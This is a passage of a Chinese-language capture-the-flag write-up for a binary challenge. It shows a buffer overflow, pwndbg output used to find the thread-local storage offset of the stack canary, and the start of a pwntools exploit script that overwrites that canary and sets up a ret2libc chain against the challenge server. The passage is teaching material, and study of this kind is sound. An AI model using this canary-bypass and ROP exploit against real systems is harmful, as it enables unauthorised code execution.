 2. v6大小为32字节，缓冲区溢出

```c
puts("Finally, what's your name?");
__isoc99_scanf("%72s", v6);
printf("Oh dear '%s', I hope one day you can be a god of XDSEC!\n", (const char *)v6);
```

但由于是printf输出，遇到\x00会停止，没法泄露canary，得想别的办法

```c
pthread_create(&pid, 0LL, vuln, 0LL);
```

结合main函数中这行代码**上网搜索**，不难查找到**TLS**相关的知识，得到解题思路

### Solution

1. 找到合适的index，覆盖TLS中的canary（看汇编可知在fs:28h处）

   在gdb中使用**fsbase**可以得到fs，由此便可算出要覆盖TLS中canary所需的index

   ```shell
   pwndbg> stack 20
   00:0000│ rsp 0x7ffff7da1e90 ◂— 0x0
   ... ↓        2 skipped
   03:0018│     0x7ffff7da1ea8 ◂— 0x20000
   04:0020│     0x7ffff7da1eb0 ◂— 0x7852 /* 'Rx' */
   ......
   pwndbg> fsbase
   0x7ffff7da2700
   pwndbg> p (0x7ffff7da2700+0x28)-0x7ffff7da1eb0
   $6 = 2168
   pwndbg> p 2168/8
   $7 = 271
   ```

   index = 271 **+ 1** = 272（因为源代码是v4[index - 1] = v5）

2. 覆盖后便是ret2libc模板题，不再赘述

exp如下

```python
from pwn import *
context.terminal=['tmux', 'splitw', '-h']
# context.log_level = 'debug'
# io = process("./gods")
io = remote('pwn.archive.xdsec.chall.frankli.site', 10062)

# gdb.attach(io, 'b vuln')
elf = ELF('./gods')
libc = ELF('./libc-2.31.so')
main_addr = elf.symbols[b'main']
puts_offset = libc.symbols[b'puts']
puts_plt = elf.plt[b'puts']
puts_got = elf.got[b'puts']
# ROPgadget
pop_rdi_ret = 0x4015d3
ret = 0x40101a

# TLS index: 272
io.sendlineafter("(*^_^*)", b'yes')
io.sendlineafter("Rank: ", b'272')
io.sendafter("Name: ", b'bbbbbbb')
io.sendlineafter("Rank: ", b'2')
io.sendafter("Name: ", b'mikatoo')

# leak address of libc
payload1 = b'a'*0x18 + b'bbbbbbb\x00' + p64(0)
```